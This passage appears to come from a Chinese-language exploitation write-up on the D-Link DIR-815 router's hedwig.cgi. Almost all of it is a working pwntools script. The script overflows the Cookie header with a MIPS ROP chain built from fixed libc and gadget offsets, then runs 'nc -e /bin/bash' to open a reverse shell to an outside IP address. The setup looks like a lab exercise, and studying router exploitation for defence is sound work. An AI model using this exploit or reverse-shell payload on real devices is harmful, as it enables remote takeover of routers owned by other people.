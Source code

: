 ```python
fd.close()
```

![image-20221023175756580](DIR815/image-20221023175756580.png)



## http请求发payload：



```python
from pwn import *
import requests
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
cmd = b'nc -e /bin/bash 192.168.111.138 8888'
 
libc_base = 0x77f34000
system_addr_1 = 0x53200 - 1
gadget1 = 0x32A98
gadget2 = 0x169C4
#.text:000169C4                 addiu   $s2, $sp, 0x170+var_158//0x18
#.text:000169C8                 move    $a2, $v1
#.text:000169CC                 move    $t9, $s0
#.text:000169D0                 jalr    $t9 ; mempcpy
#.text:000169D4                 move    $a0, $s2

payload = b'a'*973 							# 1009-4*9
payload += p32(libc_base + system_addr_1) 	# s0  system_addr- 1
payload += p32(libc_base + gadget2) 		# s1  
payload += b'a'*(4*7)
payload += p32(libc_base + gadget1) 		# ra  addiu $s0, 1 ; jalr $s1
payload += b'a'*0x18
payload += cmd
 
url = "http://192.168.100.2:4444/hedwig.cgi"
data = {"aaa" : "pwner"}
headers = {
    "Cookie"        : b"uid=" + payload,
    "Content-Type"  : "application/x-www-form-urlencoded",
    "Content-Length": "1111"
}
res = requests.post(url = url, headers = headers, data = data)
```
